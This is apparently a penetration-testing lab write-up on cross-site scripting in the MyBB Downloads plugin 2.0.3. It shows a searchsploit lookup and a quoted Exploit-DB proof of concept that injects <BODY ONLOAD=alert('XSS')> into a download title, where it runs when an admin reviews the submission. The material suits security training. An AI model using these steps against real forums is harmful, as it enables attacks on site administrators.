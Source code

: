 ![Lab - MyBB Downloads Plugin 1](./assets/03_xss_attacks_lab_mybb_downloads_plugin_1.png)

`searchsploit 'mybb downloads'`:
```
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
MyBB Downloads 2.0.3 - SQL Injection                         | php/webapps/45747.txt
MyBB Plugin Downloads 2.0.3 - Cross-Site Scripting           | php/webapps/44400.txt
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`cp /usr/share/exploitdb/exploits/php/webapps/44400.txt ./`

`cat ./44400.txt`:
```
# Exploit Title: MyBB Downloads Plugin v2.0.3 - Persistent XSS📌
# Date: 3/28/18
# Author: 0xB9
# Contact: luxorforums.com/User-0xB9 or 0xB9[at]protonmail.com
# Software Link: https://community.mybb.com/mods.php?action=view&pid=854
# Version: 2.0.3
# Tested on: Ubuntu 17.10


1. Description:
It is a plugin which adds a page to download files. If enabled, regular members can add new downloads to the page after admin approval.


2. Proof of Concept:

Persistent XSS
- Go to downloads.php page📌
- Create a New Download📌
- Add the following to the title <BODY ONLOAD=alert('XSS')>📌
- Now when the admin goes to validate your download he will be alerted

```